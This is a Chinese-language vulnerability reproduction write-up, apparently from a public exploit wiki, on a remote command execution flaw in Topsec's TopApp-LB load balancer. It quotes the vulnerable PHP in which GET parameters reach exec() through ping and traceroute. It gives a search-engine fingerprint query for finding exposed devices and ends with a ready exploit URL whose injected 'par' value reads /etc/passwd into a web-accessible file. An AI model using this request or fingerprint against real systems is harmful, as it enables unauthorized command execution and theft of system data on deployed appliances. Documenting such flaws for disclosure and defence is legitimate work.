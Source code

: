 # 天融信 TopApp-LB enable_tool_debug.php 远程命令执行漏洞

## 漏洞描述

天融信 TopSec-LB enable_tool_debug.php文件存在 远程命令执行漏洞，通过命令拼接攻击者可以执行任意命令

## 漏洞影响

<a-checkbox checked>天融信 TopSec-LB</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="天融信-TopApp-LB-负载均衡系统"</a-checkbox></br>

## 漏洞复现

登录页面如下



![img](/assets/PeiQi-Wiki/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313131402259.png)



漏洞文件为 `enable_tool_debug.php`

```php
<?php
require_once dirname(__FILE__)."/../common/commandWrapper.inc";
error_reporting(E_ALL ^ E_WARNING ^ E_NOTICE);
$val = $_GET['val'];
$tool = $_GET['tool'];
$par = $_GET['par'];
runTool($val,$tool,$par);
?>
```

`commandWrapper.inc` 文件中的 `runTool`

```php
function runTool($val,$tool,$par){
	if($val=="0"){
		UciUtil::setValue('system', 'runtool', 'tool', $tool);
		UciUtil::setValue('system', 'runtool', 'parameter', $par);
		UciUtil::commit('system');
		if($tool=="1"){
			exec('ping '.$par.'>/tmp/tool_result &');
		}else if($tool=="2"){
			exec('traceroute '.$par.'>/tmp/tool_result &');
		}
	}else if($val=="1"){
		$tool=UciUtil::getValue('system', 'runtool', 'tool');
		if($tool=="1"){
			exec('killall ping ');
		}else if($tool=="2"){
			exec('killall traceroute ');
		}
		UciUtil::setValue('system', 'runtool', 'tool', '');
		UciUtil::setValue('system', 'runtool', 'parameter', '');
		UciUtil::commit('system');
		exec('echo "">/tmp/tool_result');
	}
	
}
```

这里设置 var=0，tool=1，再进行命令拼接造成远程命令执行

```plain
/acc/tools/enable_tool_debug.php?val=0&tool=1&par=127.0.0.1' | cat /etc/passwd > ../../test.txt |'
```

![img](/assets/PeiQi-Wiki/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313131402375.png)